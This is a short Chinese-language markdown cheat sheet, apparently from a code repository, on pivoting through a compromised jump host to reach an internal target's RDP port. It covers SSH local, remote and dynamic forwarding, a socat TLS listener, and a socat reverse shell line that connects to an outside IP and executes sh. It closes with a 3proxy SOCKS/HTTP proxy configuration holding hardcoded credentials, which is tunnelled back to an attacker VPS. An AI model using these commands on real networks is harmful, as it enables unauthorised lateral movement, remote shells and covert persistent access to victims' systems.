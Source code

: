 - [SSH](#ssh)
  - [本地端口转发](#本地端口转发)
  - [远程端口转发](#远程端口转发)
  - [动态转发(socks 4/5)](#动态转发socks-45)
- [Socat](#socat)
- [3proxy](#3proxy)
# SSH 

---
## 本地端口转发
通过访问VPS的1153访问B的3389<br />VPS执行<br />`ssh -CfNg -L 1153(VPS端口):1.1.1.10:3389(目标B端口) root@192.168.1.11(跳板A)`
## 远程端口转发
通过访问VPS的1153访问B的3389<br />跳板A执行<br />`ssh -CfNg -R 1153(VPS端口):1.1.1.10(目标主机B):3389 root@192.168.1.4(跳板A)`
## 动态转发(socks 4/5)
`ssh -CfNg -D 7000 root@192.168.1.11`
# Socat
监听：`socat tty,raw,echo=0 openssl-listen:80,fork,reuseaddr,cert=cert.pem,verify=0`<br />反弹：`socat openssl-connect:106.53.248.32:80,verify=0 exec:sh,pty,stderr,setsid,sigint,sane`<br />注：对于freebsd，命令里面的setsid调用也许对防止僵尸进程的产生有很大缓解<br />注：BSD中似乎有bug不能交互，用python spawn即可
# 3proxy
FreeBSD代理软件3proxy最简单配置文件：
```
daemon
timeouts 1 5 30 60 180 1800 15 60
users vpn:CL:vpn9527
auth strong
allow vpn
# socks proxy
socks -p1080 
# http proxy
proxy -p1081
flush
```
3proxy的安装（低版本9.1）和出网
` pkg_add -r http://ftp-archive.freebsd.org/pub/FreeBSD-Archive/ports/amd64/packages-9.1-release/Latest/3proxy.tbz`
如上配置启动
` 3proxy 1.cfg`
转发端口到VPS，默认情况下VPS上监听127.0.0.1:8022 8023
`ssh -p 22 -qfN -R 8022:localhost:1080 -R 8023:localhost:1081 root@192.168.157.133`
如果需要团队使用，更改vps上sshd_config变更GatewayPorts yes后重启sshd

保持连接有时候对SSH隧道稳定性很重要，VPS修改sshd_config  
ClientAliveInterval 30  
ClientAliveCountMax 3

